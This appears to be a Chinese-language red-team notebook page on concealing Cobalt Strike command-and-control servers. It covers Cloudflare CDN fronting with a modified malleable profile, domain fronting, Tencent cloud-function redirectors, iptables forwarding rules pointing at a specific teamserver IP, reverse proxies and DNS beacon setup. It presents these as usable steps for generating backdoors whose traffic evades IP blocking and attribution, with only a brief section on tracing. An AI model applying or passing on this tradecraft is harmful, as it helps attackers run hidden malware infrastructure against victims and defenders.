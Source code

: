 CDN，域名被禁了也遭了。
域前置（过时）
云函数
端口转发，代理

## **常规CDN**
域名解析到cloudflare，cloudflare的节点ip转发到cs的真实ip。
下载c2文件模版，修改配置并上传cs根目录。
```
修改.profile文件中
http-get下的:
uri "/jquery-3.3.1.min.js";

header "Host" "www.域名.xyz";
header "Referer" "http://www.域名.xyz/"
```
启动 CS 加载 CS 模版 /teamserver 47.94.236.117 xxiaodi 指定.profile
使用 stag 生成后门即可。
```
http地址：www.域名.xyz
http地址(Stager)：www.域名.xyz
http host头：www.域名.xyz
```

注意 1：
因为 cloudflare 的原因这里端口的设置需要注意以下：
若是 http，则只能设置 80,8080,8880,2052,2082,2086,2095 这些端口号
若是 https，则只能设置 443,2053,2083,2087,2096,8443 这些端口号
注意 2：
后门生成使用 Stageless 模式


缺点：域名被禁了也遭了
^
## **域前置**
CS服务器绑定域名A.com最先，然后域名解析到CDN，CDN再到CS服务器，CDN结点上有其他的域名（CDN节点的ip反域名），用这个其他的域名作为CS木马域名，https的host填自己真实的域名A.com，当我们请求一个部署了CDN服务的域名时，实际上也默认使用了云厂商内部的解析器。而云厂商内部的解析器，实际会根据Header中的Host字段判断回源域名，最后效果是，请求内容以Host字段为准。实现连接到自己CS服务器。
![image-20240429105257029](http://cdn.33129999.xyz/mk_img/image-20240429105257029.png)

缺点：很多CDN不支持。
溯源思路：
1.因为A.com是用的CDN服务回源恶意ip，A.com必定暴露在公网上。既然在公网上存在，就必定会被空间资产测绘所检测到，通过对比测绘的界面和从CDN端返回的数据包进行对比，Banner信息测绘，从而缩小范围，直至定位到具体地址。
2.逆向木马，解密https（难），查看真实host。

## **云函数**
腾讯云的云函数服务
可以提供python3.6监听的端口和腾讯云域名。
用这个云函数转发到CS服务端，而CS服务端配置好profile文件，CS客户端生成监听器为腾讯云的域名，即可。
且ip会变，封禁ip无效。域名为腾讯云官方域名，有欺骗性。
    

## **用代理服务器端口转发**
转发机设置转发：（https：80改443即可）
```
iptables -I INPUT -p tcp -m tcp--dport 80 -j ACCEPT 
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 47.94.236.117:80
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -I FORWARD -j ACCEPT
iptables -P FORWARD ACCEPT
sysctl net.ipv4.ip_forward=1
```
这些命令的组合配置了一台 Linux 服务器作为网络网关，允许外部 HTTP 流量通过端口 80 进入，并将这些流量转发到另一个指定的 IP 地址（47.94.236.117）上的 80 端口。同时，它还设置了系统允许数据包在不同网络接口之间转发。这种配置通常用于搭建代理服务器、负载均衡器或 VPN 服务器。

## **反向代理**
利用apache,nginx等。

## **域名解析DNS**
1、xxx.com域名的子域名解析设置 A,NS 记录
ns1 ns cs.xxx.com
ns2 ns cs.xxx.com  备用
cs A xx.xx.xx.xx(CS服务端 的 IP)

2、CS 监听器-DNS
Beacon DNS
DNS 地址配置：
ns1.xxx.com
ns2.xxx.com

3、上线后
执行后 checkin 唤醒


此时查目的ip是DNS服务器的ip，不是CS服务端ip。
